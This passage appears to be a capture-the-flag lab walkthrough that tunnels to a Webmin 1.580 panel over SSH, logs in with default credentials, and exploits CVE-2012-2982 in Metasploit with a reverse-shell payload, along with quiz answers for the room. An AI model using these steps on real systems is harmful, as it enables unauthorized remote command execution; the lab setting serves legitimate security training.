````bash
ssh -L 10000:localhost:10000 agent47@10.10.10.2
firefox localhost:10000 &
````

If it works we should arrive to a login page where you can instantly identify the CMS used.

>What is the name of the exposed CMS?
>
> __Webmin__
{: .prompt-tip }

Now we need to find the credentials to access the admin panel.

I first tried ``admin:admin`` in the login form but it failed.
Then I looked on internet for the default creds and they said it's the root user (thus the user we are logged in with ssh).

When logged in it is not hard to find the CMS version.

>What is the CMS version?
>
> __1.580__
{: .prompt-tip }

# Tasks #6 - Privilege escalation with Metasploit
We have a CMS name and a version. Now time to look for vulnerabilities.

After some researches I found that this server was vulnerable to a CVE : __CVE-2012-2982__.

Let's play with ``metasploit``.

````console
$ msfconsole -q
msf5 > search CVE-2012-2982

Matching Modules
================
   #  Name                                      Disclosure Date  Rank       Check  Description
   -  ----                                      ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec  2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
````

````console
msf5 > use 0
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > show options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     10000            yes       The target port (TCP)
   SSL       true             yes       Use SSL
   USERNAME                   yes       Webmin Username
   VHOST                      no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
````